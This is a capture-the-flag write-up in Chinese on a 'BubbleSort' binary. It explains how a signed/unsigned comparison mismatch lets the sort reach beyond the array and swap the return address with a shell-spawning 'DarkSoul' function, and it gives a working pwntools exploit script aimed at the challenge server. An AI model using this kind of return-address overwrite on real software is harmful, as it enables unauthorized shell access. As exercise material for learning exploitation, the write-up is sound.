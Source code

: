 ## BubbleSort
程式先要求array長度，接著讀取每個元素內容，再讀取一個要sort的大小，接著進行sort，而隨意測試發現array長度不可輸入負數(branch使用`JBE`)，範圍為(0 ~ 127)，但排序長度可以(branch使用`JLE`)。因此sort可以排序到0~255(-1)的size，意即我們可以令input在經過sort後swap掉return address。

從ELF symbol中可以發現`DarkSoul`這個function，反組譯後發現內部會執行`system('sh')`因此將return address swap為`DarkSoul`的位址即可。

觀察stack上的內容在int array到return之間的值都> 0x80000000，因為是以int比較，因此這些值會作為負數，當送的payload中全部填0，則這些值會被swap到最前面，而DarkSoul的位址0x08048580放在陣列的最後面，因此只要輸入(return address - buffer)/sizeof(int)就能讓DarkSoul swap到目標，而這個值為-125(131)，

```python
#!/usr/bin/env python3
from pwn import *
context(arch='amd64')

p = remote('csie.ctf.tw', 10121)
b = ELF('bubblesort')

array = [0] * 126 + [b.symbols[b'DarkSoul']]
p.sendline('127') # 127 elements
for num in array:
    p.sendline(str(num))
p.sendline('-125') # 131
p.interactive()
```
